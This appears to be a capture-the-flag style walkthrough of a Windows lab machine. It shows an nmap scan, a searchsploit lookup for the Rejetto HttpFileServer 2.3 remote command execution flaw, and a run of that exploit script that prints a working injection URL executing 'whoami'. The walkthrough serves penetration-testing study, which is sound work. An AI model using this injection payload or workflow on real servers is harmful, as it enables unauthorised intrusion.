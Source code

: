 Includes:
- Recon
  - nmap
  - web apps
  - searchsploit
- Exploit
  - metasploit
- Privilege esculation
  - Enumeration
  - Misconfiguration & exploiting services
  - msfvenom

##### Nmap

Use nmap to scan windows machine. `-Pn` is specified because windows was ignoring icmp requests.

```bash
$> sudo nmap -sS -sV -Pn -vv 10.10.30.80 -oA nmap-results.txt
...

PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
8080/tcp  open  http               syn-ack ttl 127 HttpFileServer httpd 2.3
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
```

##### Search for exploits

Find exploits related to the service running on port 8080, Rejetto Http File Server 2.3.

```bash
$> searchsploit "httpfileserver"
...

Rejetto HttpFileServer 2.3.x - Remote Command Execution (3) | windows/webapps/49125.py

$> searchsploit -p windows/webapps/49125.py
[CVE2014-6287](https://www.exploit-db.com/exploits/39161)
```

We can mirror the script shown in searchsploit and take a look at what it does. It just forms a url with a specific search query parameter that allows for remote code execution and makes a request to the service to perform that action.

```bash
$> searchsploit -m windows/webapps/49125.py
$> mv 49125.py command_exec.py

$> python3 command_exec.py 10.10.30.80 8080 whoami
http://10.10.30.80:8080/?search=%00{.+exec|whoami.}
```
